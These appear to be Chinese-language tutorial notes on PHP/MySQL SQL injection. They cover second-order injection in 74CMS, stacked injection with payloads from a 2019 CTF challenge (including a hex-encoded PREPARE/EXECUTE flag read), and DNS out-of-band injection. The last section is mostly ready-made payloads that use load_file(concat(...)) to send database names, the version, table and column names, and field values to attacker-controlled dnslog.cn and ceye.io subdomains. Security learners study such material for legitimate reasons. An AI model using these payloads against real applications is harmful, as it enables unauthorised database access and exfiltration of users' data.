

# PHP应用&SQL二次注入&堆叠执行&DNS带外&功能点&黑白盒条件

\#PHP-MYSQL-二次注入-DEMO&74CMS

1、DEMO-用户注册登录修改密码

2、CMS-74CMS个人中心简历功能

黑盒思路：分析功能有添加后对数据操作的地方（功能点）

白盒思路：insert后进入select或update的功能的代码块

注入条件：插入时有转义函数或配置，后续有利用插入的数据

 

\#PHP-MYSQL-堆叠注入-DEMO&CTF强网

堆叠注入触发的条件很苛刻，因为堆叠注入原理就是通过结束符同时执行多条sql语句，

例如php中的==mysqli_multi_query函数==。与之相对应的==mysqli_query()==只能执行一条SQL，所以要想目标存在堆叠注入,在目标主机存在类似于mysqli_multi_query()这样的函数,根据数据库类型决定是否支持多条语句执行.

 

1、目标存在sql注入漏洞

2、目标未对";"号进行过滤

3、目标中间层查询数据库信息时可同时执行多条sql语句

支持堆叠数据库：MYSQL MSSQL Postgresql等

`addslashes`会把接收的数据`(点) 变成加上/(反斜杠)

但是存储到数据库时会变成原本的数据,没有/(反斜杠)

-2019强网杯-随便注（CTF题型）

';show databases;

';show tables;

';show columns from `1919810931114514`;

';select flag from `1919810931114514`;

';SeT @a=0x73656c65637420666c61672066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;

1、目标存在sql注入漏洞

2、目标未对";"号进行过滤

3、目标中间层查询数据库信息时可同时执行多条sql语句

 

`PREPARE` 是 MySQL 的 **动态 SQL 执行机制**

1. 把一段 SQL 语句 **存进变量**
2. 再由 MySQL **动态编译**并执行

也就是说，你可以让 SQL 自己执行 SQL。

EXECUTE 执行

\#PHP-MYSQL-带外注入-DEMO&DNSLOG

0.注入条件

ROOT高权限且支持load_file()

有部分注入点是没有回显的，所有读取也是没回显的，采用带外

1.使用平台

http://ceye.io

http://www.dnslog.cn

2.带外应用场景：

解决不回显，反向连接，SQL注入，命令执行，SSRF等

SQL注入：

select load_file(concat('\\\\',(select database()),'.7logee.dnslog.cn\\aa'));

and (select load_file(concat('//',(select database()),'.69knl9.dnslog.cn/abc')))

// 查询当前数据库

id=1 and load_file(concat("\\\\",database(),".dbuh8a.ceye.io\\asdt"))

 

//查询其他数据库

id=1 and load_file(concat("\\\\",(select schema_name from information_schema.schemata limit 0,1),".dbuh8a.ceye.io\\xxx.txt"))

"""

由于该DNS记录只能回显一个字段，所以因该使用limit，第一个参数是查询起始位置，第二个参数是查询个数

limit 0,1 查询第一个数据库名

limit 1,1 查询第二个数据库名

limit 2,1 查询第三个数据库名

"""

 

//查询版本号

id=1 and load_file(concat("\\\\",version(),".dbuh8a.ceye.io\\xxx.txt"))

 

//查询当前数据库demo01中第一个表名

id=1 and load_file(concat("\\\\",(select table_name from information_schema.tables where table_schema='demo01' limit 0,1 ),".dbuh8a.ceye.io\\xxx.txt"))

 

"""

由于该DNS记录只能回显一个字段，所以因该使用limit，第一个参数是查询起始位置，第二个参数是查询个数

limit 0,1 查询第一个表名

limit 1,1 查询第二个表名

limit 2,1 查询第三个表名

"""

//查询security数据库emails表下第一个列名

id=1 and load_file(concat("\\\\",(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),".dbuh8a.ceye.io\\xxx.txt"))

 

//查询字段值  数据库名为security 表名emails 列名id

id=1 and load_file(concat("\\\\",(select id from security.emails limit 0,1),".dbuh8a.ceye.io\\xxx.txt"))